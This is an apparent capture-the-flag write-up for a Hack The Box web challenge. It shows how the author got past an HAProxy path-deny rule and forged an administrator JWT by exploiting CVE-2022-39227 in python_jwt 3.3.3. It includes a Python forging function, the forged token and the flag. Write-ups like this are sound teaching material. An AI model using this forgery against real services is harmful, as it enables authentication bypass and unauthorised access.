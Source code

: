 # Challenge source file
URL: [https://1drv.ms/u/c/4ab09e7ce6bb4141/EdYr-ieqp41DvNLm6nxFQ9QBmHrbVUcS8ikaqq513BCD7g?e=uxOHd4](https://1drv.ms/u/c/4ab09e7ce6bb4141/EdYr-ieqp41DvNLm6nxFQ9QBmHrbVUcS8ikaqq513BCD7g?e=uxOHd4)

# Difficulty
Normal

# Author
Hack The Box team

# Approach
- The site is an API that provide chat service between companies and ransomware groups. It provides 3 endpoints: an endpoint to get chat ticket, and endpoint to read the chat, and one is for the flag:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/4294e8ed-8b6a-48ba-90b0-2220529f2e09)

- The problem is: I can't use any service on it, because it requires a valid JWT token provided by backend, and the endpoint */api/v1/get_ticket* was banned.
- It's time to read the source code:
- *haproxy.cfg* file:
```
global
    daemon
    maxconn 256

defaults
    mode http

    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms

frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
    
backend backend
    balance roundrobin
    server s1 0.0.0.0:5000 maxconn 32 check
```

- This is a config file that have the rule to prevent us from accessing */api/v1/get_ticket*. This can be easily bypassed using [CVE-2023-45539](https://www.haproxy.com/blog/december-2023-cve-2023-45539-haproxy-accepts-as-part-of-the-uri-component-fixed), but I used another technique:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/0d01a026-f374-434d-9ea7-5f19827e6f5a)
 
- I have a JWT token now. I put it in an online decoder, and receive this:
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/ce289f92-60ee-4d39-b48f-e2cd6e490a02)

- We can see that there is a guest role asssigned to this token, so the goal is change it to admin role.
- The backend also use a module called *python-jwt*:
  *requirements.txt*:
  ```
  uwsgi
  Flask
  requests
  python_jwt==3.3.3
  ```

- This verison has a vulnerability explained in [CVE-2022-39227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227). Luckily, there is an available [POC](https://github.com/user0x1337/CVE-2022-39227) that I can use. Or you can use this script to create a fake JWT:
  ```python
  def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
  ```
  

# Problem-solving
- I created a fake JWT (actually, this is not JWT anymore), then use it to access */api/v1/flag*:
  ```
  {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTE3MDM4ODEsImlhdCI6MTcxMTcwMDI4MSwianRpIjoic0hlMmZyZ2dqTV9rajFDaHo1bGJfdyIsIm5iZiI6MTcxMTcwMDI4MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiaGVoZSJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTE3MDM4ODEsImlhdCI6MTcxMTcwMDI4MSwianRpIjoic0hlMmZyZ2dqTV9rajFDaHo1bGJfdyIsIm5iZiI6MTcxMTcwMDI4MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"i0y3hv69ciWMFSFLrxS7qL53jqdaW0-xNkezPO-gBlZlfEZ7EKp6vAYwMmb2NDqadA8uqBepYgQ7dDK_5vqLh06Xr1IvVFqdCmmu62wKsvGJg1spsIRMIq-9f4fR_I0lENSeqVnPAbEuLCVf2wU-b9Kji6V3APCRNWkMJ_r9sJi9cnz4_NNtX_NoOMd2UJCp_JSRMXPh31YXUswmKdJl1lxpbUQvk7ya000yLMQG6CzzdTFK45mwV-4OL6-yYA8a8kj3wnwAMiUL0YLG3zhShm3wBjuULwThcsymwCjY_6eTbi7d4yMQcO8Y1i5N1l91n366Sa0C0_V5OY8IsRE3Ag"}
  ```
  ![image](https://github.com/NoSpaceAvailable/HackTheBox-Cyber-Apocalypse-CTF-2024/assets/143888307/49f9c7f6-6489-4a3c-9739-176319dcd235)

- Flag: HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
